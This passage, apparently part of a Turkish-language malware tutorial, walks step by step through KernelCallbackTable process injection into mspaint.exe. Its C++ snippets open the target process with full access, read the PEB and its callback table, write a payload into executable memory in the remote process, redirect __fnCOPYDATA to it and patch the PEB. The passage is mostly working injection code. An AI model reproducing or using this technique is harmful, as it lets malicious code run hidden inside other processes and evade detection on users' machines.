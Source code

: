 Daha sonra, `mspaint.exe` için bir pencere bulun, süreç kimliğini (process id) elde edin ve açın:    

```cpp
// find a window for mspaint.exe
HWND hw = FindWindow(NULL, (LPCSTR) "Untitled - Paint");
if (hw == NULL) {
  printf("failed to find window :(\n");
  return -2;
}
GetWindowThreadProcessId(hw, &pid);
ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
```

Ardından, `PEB`'i ve mevcut tablo adresini okuyun:     

```cpp
HMODULE ntdll = GetModuleHandleA("ntdll");
pNtQueryInformationProcess myNtQueryInformationProcess = 
(pNtQueryInformationProcess)(GetProcAddress(
ntdll, "NtQueryInformationProcess"));

myNtQueryInformationProcess(ph, 
ProcessBasicInformation, 
&pbi, sizeof(pbi), NULL);

ReadProcessMemory(ph, pbi.PebBaseAddress, 
&peb, sizeof(peb), NULL);
ReadProcessMemory(ph, peb.KernelCallbackTable, 
&kct, sizeof(kct), NULL);
```

Daha sonra, `VirtualAllocEx` ve `WriteProcessMemory` kullanarak payload'umuzu uzak sürece yazın:    

```cpp
LPVOID rb = VirtualAllocEx(ph, NULL, sizeof(my_payload),
MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(ph, rb, my_payload, 
sizeof(my_payload), NULL);
```

`VirtualAllocEx` kullanıyoruz, bu işlev uzak süreç için bir bellek tamponu ayırmanıza olanak tanır. Ardından, `WriteProcessMemory`, süreçler arasında veri kopyalamanıza olanak tanır, bu yüzden payload'umuzu `mspaint.ex`e sürecine kopyalıyoruz.     

Yeni tabloyu uzak sürece yazın:   

```cpp
LPVOID tb = VirtualAllocEx(ph, NULL, sizeof(kct), 
MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
kct.__fnCOPYDATA = (ULONG_PTR)rb;
WriteProcessMemory(ph, tb, &kct, sizeof(kct), NULL);
```

`PEB`'i güncelleyelim:    

```cpp
WriteProcessMemory(ph, 
(PBYTE)pbi.PebBaseAddress + offsetof(PEB, KernelCallbackTable), 
&tb, sizeof(ULONG_PTR), NULL);
```
